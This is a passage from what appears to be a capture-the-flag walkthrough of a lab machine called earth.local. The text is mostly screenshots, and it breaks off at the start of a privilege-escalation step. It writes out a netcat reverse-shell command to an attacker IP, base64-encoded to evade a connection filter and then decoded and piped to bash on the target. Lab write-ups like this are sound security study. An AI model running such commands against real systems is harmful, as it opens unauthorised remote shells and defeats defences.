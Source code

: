 
<img width="1125" height="194" alt="image" src="https://github.com/user-attachments/assets/b5243a08-8990-4803-8b2f-706938faeb60" />


<img width="875" height="89" alt="image" src="https://github.com/user-attachments/assets/6fcb68dc-159a-425b-967f-6afceb253f97" />


<img width="655" height="167" alt="image" src="https://github.com/user-attachments/assets/2b706fa3-3acc-4be9-92a1-a46345ea16cb" />


<img width="1125" height="302" alt="image" src="https://github.com/user-attachments/assets/4e075543-d707-4104-885f-47c5895ad791" />


Flag obtained: **[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]**


**4. Installation**


Decode the Netcat listener command:
```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```

<img width="709" height="213" alt="image" src="https://github.com/user-attachments/assets/3c80ea66-d78d-4703-bcd3-528074f4399b" />


Remote connections are not allowed from target pc.

To bypass this, we need need to encrypt the command and force it to be decrypted and run at the same time.

```echo ‘nc -e /bin/bash <attacker_IP> 4444’ | base64```    (note :  Replace with your listener machine’s IP, not the target’s.)


<img width="705" height="125" alt="image" src="https://github.com/user-attachments/assets/efea4fc3-84b8-42cd-b7ec-ceb772c6632a" />


On earth.local, decode and execute in one step:
```echo ‘put-base64-string-here’ | base64 -d | bash```


The server may freeze, but the Netcat listener will receive a shell. 


<img width="1125" height="217" alt="image" src="https://github.com/user-attachments/assets/24022197-88e2-4ed2-98bd-1b0660e13195" />


<img width="789" height="191" alt="image" src="https://github.com/user-attachments/assets/3cdb4a61-3126-42ce-9ee9-8e4006bdad12" />



**5. Command & Control**



Verify access with ```whoami```


<img width="775" height="84" alt="image" src="https://github.com/user-attachments/assets/024f74d0-78fc-479a-bb47-55e0dc6116de" />


Look for weak file permission that can be executed with root privilege by apache user : 


```